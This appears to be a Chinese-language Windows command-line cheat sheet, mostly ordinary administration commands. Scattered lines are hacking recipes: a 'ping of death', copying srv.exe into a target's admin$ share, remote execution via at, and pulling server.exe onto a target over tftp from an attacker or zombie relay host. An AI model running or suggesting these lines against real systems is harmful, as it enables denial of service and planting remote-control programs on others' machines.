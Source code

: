 - netstat -v 查看正在进行的工作
- netstat -p 协议名 例：netstat -p tcq/ip 查看某协议使用情况
- netstat -s 查看正在使用的所有协议使用情况
- nbtstat -A ip 对方 136 到 139 其中一个端口开了的话，就可查看对方最近登陆的用户名
- tracert -参数 ip(或计算机名) 跟踪路由（数据包），参数：“-w 数字”用于设置超时间隔。
- ping ip(或域名) 向对方主机发送默认大小为 32 字节的数据，参数：“-l[空格]数据包大小”；“-n 发送数据次数”；“-t”指一直 ping。
- ping -t -l 65550 ip 死亡之 ping(发送大于 64K 的文件并一直 ping 就成了死亡之 ping)
- ipconfig (winipcfg) 用于 windows NT 及 XP(windows 95 98)查看本地 ip 地址，ipconfig 可用参数“/all”显示全部配置信息
- tlist -t 以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的 Support/tools 文件夹内)
- kill -F 进程名 加-F 参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的 Support/tools 文件夹内)
- del -F 文件名 加-F 参数后就可删除只读文件,/AR、/AH、/AS、/AA 分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A 表示删除除只读、隐藏、系统、存档以外的文件。例如“DEL/AR _._”表示删除当前目录下所有只读文件，“DEL/A-S _._”表示删除当前目录下除系统文件以外的所有文件
- del /S /Q 目录 或用：rmdir /s /Q 目录 /S 删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）
- move 盘符路径要移动的文件名　存放移动文件的路径移动后文件名 移动文件,用参数/y 将取消确认移动目录存在相同文件的提示就直接覆盖
- fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到 3st.txt 文件中，"> "和"> >" 是重定向命令
- at id 号 开启已注册的某个计划任务
- at /delete 停止所有计划任务，用参数/yes 则不需要确认就直接停止
- at id 号 /delete 停止某个已注册的计划任务
- at 查看所有的计划任务
- at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机
- finger username @host 查看最近有哪些用户登陆
- telnet ip 端口 远和登陆服务器,默认端口为 23
- open ip 连接到 IP（属 telnet 登陆后的命令）
- telnet 在本机上直接键入 telnet 将进入本机的 telnet
- copy 路径文件名 1 　路径文件名 2 /y 复制文件 1 到指定的目录为文件 2，用参数/y 就同时取消确认你要改写一份现存目录文件
- copy c:srv.exe ipadmin\$ 复制本地 c:srv.exe 到对方的 admin 下
- copy 1st.jpg/b+2st.txt/a 3st.jpg 将 2st.txt 的内容藏身到 1st.jpg 中生成 3st.jpg 新的文件，注：2st.txt 文件头要空三排，参数：/b 指二进制文件，/a 指 ASCLL 格式文件
- copy ipadmin$svv.exe c: 或:copyipadmin$_._ 复制对方 admini\$共享下的 srv.exe 文件（所有文件）至本地 C：
- xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y 将不提示覆盖相同文件
  用参数/e 才可连目录下的子目录一起复制到目标地址下。
- tftp -i 自己 IP(用肉机作跳板时这用肉机 IP) get server.exe c:server.exe 登陆后，将“IP”的 server.exe 下载到目标主机 c:server.exe 参数：-i 指以二进制模式传送，如传送 exe 文件时用，如不加-i 则以 ASCII 模式（传送文本文件模式）进行传送
- tftp -i 对方 IP 　 put c:server.exe 登陆后，上传本地 c:server.exe 至主机
- ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为 21。bin 指用二进制方式传送（可执行文件进）；默认为 ASCII 格式传送(文本文件时)
- route print 显示出 IP 路由，将主要显示网络地址 Network addres，子网掩码 Netmask，网关地址 Gateway addres，接口地址 Interface
- arp 查看和处理 ARP 缓存，ARP 是名字解析的意思，负责把一个 IP 解析成一个物理性的 MAC 地址。arp -a 将显示出全部信息
- start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令
- mem 查看 cpu 使用情况
- attrib 文件名(目录名) 查看某文件（目录）的属性
- attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性
- dir 查看文件，参数：/Q 显示文件及目录属系统哪个用户，/T:C 显示文件创建时间，/T:A 显示文件上次被访问时间，/T:W 上次被修改时间
- date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间
- set 指定环境变量名称=要指派给变量的字符 设置环境变量
- set 显示当前所有的环境变量
- set p(或其它字符) 显示出当前以字符 p(或其它字符)开头的所有环境变量
- pause 暂停批处理程序，并显示出：请按任意键继续....
- if 在批处理程序中执行条件处理（更多说明见 if 命令及变量）
- goto 标签 将 cmd.exe 导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）
- call 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见 call /?）
- for 对一组文件中的每一个文件执行某个特定命令（更多说明见 for 命令及变量）
- echo on 或 off 打开或关闭 echo，仅用 echo 不加参数则显示当前 echo 设置
- echo 信息 在屏幕上显示出信息
- echo 信息 >> pass.txt 将"信息"保存到 pass.txt 文件中
- findstr "Hello" aa.txt 在 aa.txt 文件中寻找字符串 hello
- find 文件名 查找某文件
- title 标题名字 更改 CMD 窗口标题名字
- color 颜色值 设置 cmd 控制台前景和背景颜色；0=黑、1=蓝、2=绿、3=浅绿、4=红、5=紫、6=黄、7=白、8=灰、9=淡蓝、A=淡绿、B=淡浅绿、C=淡红、D=淡紫、E=淡黄、F=亮白
- prompt 名称 更改 cmd.exe 的显示的命令提示符(把 C:、D:统一改为：EntSky )
- ver 在 DOS 窗口下显示版本信息
- winver 弹出一个窗口显示版本信息（内存大小、系统版本、补丁版本、计算机名）
- format 盘符 /FS:类型 格式化磁盘,类型:FAT、FAT32、NTFS ,例：Format D: /FS:NTFS
- md 　目录名 创建目录